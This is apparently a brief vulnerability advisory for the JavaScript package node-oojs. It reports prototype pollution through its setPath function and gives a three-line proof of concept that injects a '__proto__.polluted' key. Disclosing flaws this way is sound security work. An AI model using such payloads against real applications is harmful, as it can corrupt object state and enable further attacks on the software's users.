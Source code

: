 # Overview

`node-oojs` is an Object Oriented JavaScript, this package is vulnerable to Prototype Pollution via the `setPath` function.

# Proof of Concept
```
require('node-oojs');
oojs.setPath({'__proto__.polluted':true});
console.log(polluted);
```